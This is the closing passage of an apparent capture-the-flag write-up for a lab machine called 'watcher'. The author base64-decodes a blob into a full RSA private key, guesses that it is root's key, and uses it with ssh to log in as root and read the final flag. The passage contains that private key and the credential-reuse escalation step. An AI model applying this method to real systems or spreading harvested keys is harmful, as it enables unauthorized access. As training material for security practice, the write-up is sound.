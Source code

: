 ```
NEtLTnk2d0prd0d2MnVSZGo5cnRhMlg1cHpUcTJuRUFwa2UyVVlsUDVPTGgKLzZLSFRMUmhjcDlG
bUY5aUtXRHRFTVNROERDYW41Wk1KN09JWXAyUloxUnpDOUR1ZzNxa3R0a09LQWJjY0tuNQo0QVB4
STFEeFUrYTJ4WFhmMDJkc1FIMEg1QWhOQ2lUQkQ3STVZUnNNMWJPRXFqRmRaZ3Y2U0E9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```

Using cyberchef to decode it using Base64

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
q3X7D50gikpEZEUeIMPPjPcUNGUKaXoaX5n2XaYBtQiRR6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/tW188W00gy9w51bKSKDxboti2gdgmFolpnFw+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----

```

We will save it in to our machine and it mis owned by root so maybe it is root account's private key.

Once the id_rsa is created, we need to issue the `chmod 600 id_rsa` command.

`ssh root@10.10.66.182 -i id_rsa`

and we are root!

```
root@watcher:~# id
uid=0(root) gid=0(root) groups=0(root)
root@watcher:~# cat flag_7.txt 
FLAG{who_watches_the_watchers}
```
